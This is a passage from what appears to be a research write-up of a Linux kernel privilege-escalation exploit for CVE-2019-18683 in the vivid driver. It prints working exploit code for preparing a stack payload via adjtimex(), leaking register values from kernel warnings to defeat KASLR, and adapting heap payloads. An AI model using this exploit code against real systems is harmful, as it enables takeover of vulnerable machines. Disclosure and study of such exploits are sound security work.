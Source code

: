 ```c
					sizeof(struct vivid_buffer), vbuf);
}
```

And that memory is for the `adjtimex()` syscall, which will put it on the kernel stack:

```c
#define PAYLOAD2_SZ 208

void init_stack_payload()
{
	for_stack = mmap(NULL, MMAP_SZ, PROT_READ | PROT_WRITE,
					MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	if (for_stack == MAP_FAILED)
		err_exit("[-] mmap");

	printf(" [+] payload for_stack is mmaped to %p\n", for_stack);

	/* Don't touch the second page (needed for userfaultfd) */
	memset(for_stack, 0, PAGE_SIZE);

	timex_addr = for_stack + PAGE_SIZE - PAYLOAD2_SZ + 8;
	printf(" [+] timex of size %lu is at %p\n",
				sizeof(struct timex), timex_addr);
}
```

As I described earlier, after hitting the race condition the `kmsg` parsing pthread extracts the following information from the kernel warning:
  - The `RSP` value to calculate the address of kernel stack top.
  - The `R11` value that points to some constant location in the kernel code. This value helps to calculate the `KASLR` offset: <br/>
  ```c
	#define R11_COMPONENT_TO_KASLR_OFFSET 0x195d80d
	#define KERNEL_TEXT_BASE 0xffffffff81000000

	kaslr_offset = strtoul(r11, NULL, 16);
	kaslr_offset -= R11_COMPONENT_TO_KASLR_OFFSET;
	if (kaslr_offset < KERNEL_TEXT_BASE) {
		printf("bad kernel text base 0x%lx\n", kaslr_offset);
		err_exit("[-] kmsg parsing for r11");
	}
	kaslr_offset -= KERNEL_TEXT_BASE;
  ```
  <br/>

Then the `kmsg` parsing pthread adapts the heap and stack payload. The most interesting and complex part! To understand it have a look at the debug output of this code (posted above).

```c
#define TIMEX_STACK_OFFSET 0x1d0

#define LIST_OFFSET 24
#define OPS_OFFSET 64
#define CMD_OFFSET 172

struct vivid_buffer *vbuf = (struct vivid_buffer *)xattr_addr;
struct vb2_queue *vq = NULL;
struct vb2_mem_ops *memops = NULL;
struct vb2_plane *vplane = NULL;

printf("Adapt payloads knowing that kstack is 0x%lx, kaslr_offset 0x%lx:\n",
	kstack,
	kaslr_offset);

/* point to future position of vb2_queue in timex payload on kernel stack */
```

[0]: https://nvd.nist.gov/vuln/detail/CVE-2019-18683
[0.1]: https://www.offensivecon.org/speakers/2020/alexander-popov.html
[0.2]: https://elixir.bootlin.com/linux/v5.4/source/drivers/media/platform/vivid
[1]: https://youtu.be/mb4YHyLy0Zc
[1.1]: https://www.kernel.org/doc/html/latest/media/v4l-drivers/vivid.html
[2]: https://www.openwall.com/lists/oss-security/2019/11/02/1
[3]: https://github.com/google/syzkaller/
[4]: https://lore.kernel.org/lkml/CAHk-=wgE-veRb7+mw9oMmsD97BLnL+q8Gxu0QRrK65S2yQfMdQ@mail.gmail.com/
[5]: https://lore.kernel.org/lkml/20200116140218.1328022-1-alex.popov@linux.com/T/#u
[6]: https://lore.kernel.org/lkml/20200116095220.7368a604@gandalf.local.home/
[7]: https://lore.kernel.org/lkml/20200117225900.16340-1-alex.popov@linux.com/T/#u
[9]: https://duasynt.com/blog/linux-kernel-heap-spray
[10]: https://twitter.com/andreyknvl
[11]: https://github.com/xairy
[12]: https://www.ptsecurity.com/ww-en/
[13]: https://grsecurity.net/features
[14]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety